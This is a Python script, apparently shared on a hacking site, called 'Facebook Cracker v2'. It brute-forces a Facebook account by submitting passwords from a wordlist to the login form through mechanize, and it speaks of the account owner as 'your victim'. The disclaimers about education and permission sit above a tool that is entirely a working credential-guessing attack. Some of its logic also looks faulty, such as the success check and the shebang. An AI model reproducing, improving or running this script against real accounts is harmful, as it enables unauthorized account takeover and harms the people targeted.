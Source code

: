 #!usr/bin/python
#Facebook Cracker Version 2 can crack into Facebook Database 100% without Interruption By Facebook Firewall !
#This program is for educational purposes only.
#Don't attack people facebook accounts it's illegal ! 
#If you want to crack into someone's account, you must have the permission of the user. 
#InfosecHacker is not responsible.


import sys
import random



























































































































import cookielib
import mechanize 
GHT = '''
        +=========================================+
        |..........Facebook Cracker v 2...........|
        +-----------------------------------------+
        |#Author: RdH4CK3r  modified        |
        ||
        |#Date: 23/10/2015                        |
        |#This tool is made for pentesting.       |
        |#Changing the Description of this tool   |
        |Won't made you the coder ^_^ !!!         |
        |#Respect Coderz ^_^                      |
        |#I take no responsibilities for the      |
        |  use of this program !                  |
        +=========================================+
        |..........Facebook Cracker v 2...........|
        +-----------------------------------------+
'''
print ("Note:- This tool can crack facebook account even if you don't have the email of your victim")
print ("# Hit CTRL+C to quit the program")
print ("# Use www.graph.facebook.com for more infos about your victim")


email = str(raw_input("# Enter |Email| |Phone number| |Profile ID number| |Username| : "))
passwordlist = str(raw_input("Enter the name of the password list file : "))

useragents = [('User-agent', 'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]



login = 'https://www.facebook.com/login.php?login_attempt=1'
def attack(password):

  try:
     sys.stdout.write("\r[*] trying %s.. " % password)
     sys.stdout.flush()
     br.addheaders = [('User-agent', random.choice(useragents))]
     site = br.open(login)
     br.select_form(nr=0)

      
         
     ##Facebook
     br.form['email'] =email
     br.form['pass'] = password
     br.submit()
     log = br.geturl()
     if log == login:
        print ("\n\n\n [*] Password found .. !!")
        print ("\n [*] Password : %s\n") % (password)
        sys.exit(1)
  except KeyboardInterrupt:
        print ("\n[*] Exiting program .. ")
        sys.exit(1)

def search():
    global password
    for password in passwords:
        attack(password.replace("\n",""))



def check():

    global br
    global passwords
    try:
       br = mechanize.Browser()
       cj = cookielib.LWPCookieJar()
       br.set_handle_robots(False)
       br.set_handle_equiv(True)
       br.set_handle_referer(True)
       br.set_handle_redirect(True)
       br.set_cookiejar(cj)
       br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
    except KeyboardInterrupt:
       print ("\n[*] Exiting program ..\n")
       sys.exit(1)
    try:
       list = open(passwordlist, "r")
       passwords = list.readlines()
       k = 0
       while k < len(passwords):
          passwords[k] = passwords[k].strip()
          k += 1
    except IOError:
        print ("\n [*] Error: check your password list path \n")
        sys.exit(1)
    except KeyboardInterrupt:
        print ("\n [*] Exiting program ..\n")
        sys.exit(1)
    try:
        print (GHT)
        print (" [*] Account to crack : %s") % (email)
        print (" [*] Loaded :") , len(passwords), "passwords"
        print (" [*] Cracking, please wait ...")
    except KeyboardInterrupt:
        print ("\n [*] Exiting program ..\n")
        sys.exit(1)
    try:
        search()
        attack(password)
    except KeyboardInterrupt:
        print ("\n [*] Exiting program ..\n")
        sys.exit(1)

if __name__ == '__main__':
    check()
